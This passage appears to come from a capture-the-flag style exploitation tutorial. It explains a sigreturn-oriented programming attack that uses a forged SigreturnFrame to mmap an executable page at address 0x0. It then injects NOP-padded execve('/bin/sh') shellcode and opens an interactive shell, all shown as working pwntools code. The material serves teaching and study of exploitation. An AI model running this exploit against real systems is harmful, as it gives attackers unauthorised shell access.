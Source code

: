 * `addr`: `0x0`
* `length`: `0x1000` - to map from `0x0` to `0x1000`
* `prot`: `PROT_READ` | `PROT_WRITE` | `PROT_EXEC`
* `flags`:
    * `MAP_PRIVATE`
    * `MAP_ANONYMOUS` - we cannot use `fd` 0 to read from stdin in `mmap`. We will just use the `read` function, so this flag disables reading from the `fd`, basically ignoring it.
    * `MAP_FIXED` - we want the mapped section starting exactly at `0x0`, we don't want the kernel giving us any other address.

```python
def get_mmap_frame():
    f = SigreturnFrame(kernel="amd64")
    f.rax = 9
    f.rdi = 0x0
    f.rsi = 0x1000
    f.rdx = 0x1 | 0x2 | 0x4
    f.r10 = 0x2 | 0x20 | 0x10
    f.r8 = 0
    f.r9 = 0
    f.rip = u64(SYSCALL_RET)
    f.rsp = 0x400090
    return bytes(f)
```

What shellcode to inject? Let's put some NOPs, and a simple `execve` call with the binsh string appended at the end of the payload at a fixed address:

```
mov rdi, 0x100 
mov rax, 59
xor rsi, rsi
xor rdx, rdx
syscall
```

And this is the payload:

```python
mmap_payload = b"A" * 40
mmap_payload += VULN
mmap_payload += SYSCALL_RET
mmap_payload += get_mmap_frame()

f = open("./execve_shellcode_mmap", 'rb');
shellcode = b"\x90\x90\x90\x90";
shellcode += f.read();
shellcode += b"A" * (0x100 - 0x56 - len(shellcode))
shellcode += b"/bin/sh\x00";

r.send(mmap_payload)
r.recv(len(mmap_payload))
r.send(b"A" * 15)
r.recv(15)
r.send(shellcode);

# We should have shell, program will likely crash afterwards
r.interactive()
```
